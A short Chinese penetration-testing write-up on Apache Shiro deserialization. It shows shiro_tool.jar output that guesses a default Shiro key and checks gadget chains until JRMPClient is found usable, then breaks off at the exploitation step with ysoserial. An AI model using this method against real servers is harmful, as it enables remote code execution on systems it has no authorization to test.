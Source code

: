 ## 0x00 漏洞背景

  在打一个项目中，shiro反序列化有个链容易忽略，找到key没有链，可以尝试JRMPClient，下面是shiro_tool.jar测试结果，关键部分不放了。
 ``` 
[-] target is use shiro
[-] start guess shiro key...
[-] use shiro key: 4AvVhmFLUs0KTA3Kprsdag==
[-] check CommonsBeanutils1
[-] check CommonsCollections1
[-] check CommonsCollections2
[-] check CommonsCollections3
[-] check CommonsCollections4
[-] check CommonsCollections5
[-] check CommonsCollections6
[-] check CommonsCollections7
[-] check Groovy1
[-] check JSON1
[-] check Spring1
[-] check Spring2
[-] check Jdk7u21
[-] check JRMPClient
[-] check ROME
[-] check Clojure
[*] find: JRMPClient can be use
0: JRMPClient
[-] please enter the number(0-0)

```
## 0x00 漏洞利用
  
  使用ysoserial.jar 工具搭建服务
